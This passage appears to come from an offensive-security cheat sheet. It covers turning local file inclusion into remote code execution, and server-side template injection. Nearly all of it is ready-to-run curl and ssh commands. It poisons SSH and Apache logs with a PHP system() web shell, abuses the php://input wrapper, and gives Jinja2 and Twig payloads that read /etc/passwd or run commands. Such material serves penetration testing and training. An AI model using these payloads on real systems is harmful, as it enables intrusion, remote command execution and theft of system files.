 #### LFI to RCE Techniques
```bash
# Log poisoning via SSH
# 1. Include SSH log
curl "http://<target>/page.php?file=/var/log/auth.log"

# 2. Poison SSH log (from another terminal)
ssh "<?php system(\$_GET['c']); ?>"@<target>

# 3. Execute commands
curl "http://<target>/page.php?file=/var/log/auth.log&c=whoami"

# Apache log poisoning
# 1. Include Apache access log
curl "http://<target>/page.php?file=/var/log/apache2/access.log"

# 2. Poison log with PHP code in User-Agent
curl -A "<?php system(\$_GET['c']); ?>" http://<target>

# 3. Execute commands
curl "http://<target>/page.php?file=/var/log/apache2/access.log&c=id"

# PHP wrapper exploitation
curl -X POST "http://<target>/page.php?file=php://input" \
     -d "<?php system(\$_GET['c']); ?>" \
     -H "Content-Type: application/x-www-form-urlencoded"

# Then execute: curl "http://<target>/page.php?file=php://input&c=whoami"
```

### Server-Side Template Injection (SSTI)

#### SSTI Detection
```bash
# Basic SSTI payloads
curl "http://<target>/page.php?name={{7*7}}"
curl "http://<target>/page.php?name=\${7*7}"
curl "http://<target>/page.php?name=<%= 7*7 %>"
curl "http://<target>/page.php?name=\${{7*7}}"
curl "http://<target>/page.php?name=#{7*7}"

# Template engine identification
# Jinja2 (Python)
curl "http://<target>/?name={{config}}"
curl "http://<target>/?name={{''.__class__.__mro__[2].__subclasses__()}}"

# Twig (PHP)
curl "http://<target>/?name={{_self}}"
curl "http://<target>/?name={{dump(app)}}"
```

#### SSTI Exploitation
```bash
# Jinja2 RCE
payload="{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}"
curl "http://<target>/?name=$payload"

# Twig RCE  
payload="{{_self.env.registerUndefinedFilterCallback(\"exec\")}}{{_self.env.getFilter(\"whoami\")}}"
curl "http://<target>/?name=$payload"
```
